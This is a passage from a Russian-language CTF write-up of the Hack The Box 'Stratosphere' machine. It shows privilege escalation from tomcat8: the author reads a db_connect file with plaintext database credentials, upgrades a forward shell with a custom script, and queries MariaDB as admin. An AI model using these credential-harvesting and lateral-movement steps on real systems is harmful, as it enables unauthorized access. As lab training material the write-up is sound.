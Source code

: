 ```text
work:       symbolic link to ../../cache/tomcat8
```

```text
stratosphere> cat db_connect
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin
```

### FwdSh3ll
**UPD.** В исследовательских целях был написан крошечный exploitation-фреймворк для генерации forward-shell'ов под различные уязвимости, ознакомиться можно [здесь](https://github.com/snovvcrash/FwdSh3ll "snovvcrash/FwdSh3ll: Forward shell generation framework.").

## PrivEsc: tomcat8 → richard
Далеко не отходя, нашли ASCII-text'ый файл `db_connect` с кредами авторизации в базу данных. Развернем pty-шелл самопальной командой `upgrade` нашего чудо-скрипта, чтобы не мучаться с синтаксисом one-liner'ов для извлечения информации из БД (сразу скажу, что первый набор кредов `ssn_admin:AWs64@on*&` — это rabbit hole, под этой учеткой в базе данных пусто):
```
stratosphere> upgrade
tomcat8@stratosphere:~$
mysql -u admin -p"admin"
mysql -u admin -p"admin"
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 8
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| users              |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]>
use users
use users
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [users]>
show tables;
show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| accounts        |
+-----------------+
```
